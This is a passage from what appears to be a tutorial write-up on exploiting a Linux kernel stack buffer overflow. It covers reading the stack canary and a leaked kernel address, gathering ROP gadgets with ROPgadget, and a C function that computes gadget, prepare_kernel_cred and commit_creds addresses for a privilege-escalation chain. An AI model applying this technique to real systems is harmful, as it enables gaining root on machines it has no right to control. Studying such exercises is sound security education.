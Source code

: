 So adjusting for the offset: 
<img src="/assets/images/kernel/bof/user_buf_3.png" style="width:100%; height:100%;" />
The canary can be seen at the address: 0x7ffd6e8574f4. On the right side of that is the saved RBP. The .text address that can be used for calculating kernel base is at the address: 0x7ffd6e857504

### 4. Calculating the offsets
Gadgets can be found with the tool ROPgadget using the command:
```
ROPgadget --all --binary vmlinux > gadget.txt
```
It is recommended to put into a file since it is faster when using grep instead of running ROPgadget every time. Since ROPgadget might not be able to tell if bytes are in executable memory or it can return 'fantasy gadgets' - gadgets that cannot be used. One thing I found was to grep for "81" since that would be a pretty good indicator that the gadget address was in executable mem. For example:
```
cat gadgets.txt | grep "81" | grep "pop rdi" | grep "ret"
```
And an example of an address containing "81" can be seen below:
```
0xffffffff81368000 : pop rdi ; ret
```

After finding all the necessary gadgets, their correct offsets were calculated using the **fix_offsets** function:
```c
// kbase of vmlinux (when not loaded or anything): 0xffffffff81000000
void fix_offsets() {
    pop_rdi = kbase + 0x368000;
    pop_rax = kbase + 0x2C11B4;
    pop_rcx = kbase + 0x86c37a;
    pop_rdx = kbase + 0x7EC1D6;
    pop_rax_pop_rdi = kbase + 0x5e0360;
    pop_r11_mov_cl_qword_rax = kbase + 0x406e0f;
    push_rax_call_rcx  = kbase + 0x72c38c;
    ret = kbase + 0x1B134F9;
    
    find_task_by_vpid = kbase + 0x3BB5C0;
    prepare_kernel_cred = kbase + 0x3C9A00;
    commit_creds = kbase + 0x3C9740;
    kpti_trampoline = kbase + 0x11bc;

    printf("pop rdi: 0x%lx\n", pop_rdi);
    printf("pop rax: 0x%lx\n", pop_rax);
    printf("pop rcx: 0x%lx\n", pop_rcx);
    printf("pop rax pop rdi: 0x%lx\n", pop_rax_pop_rdi);
```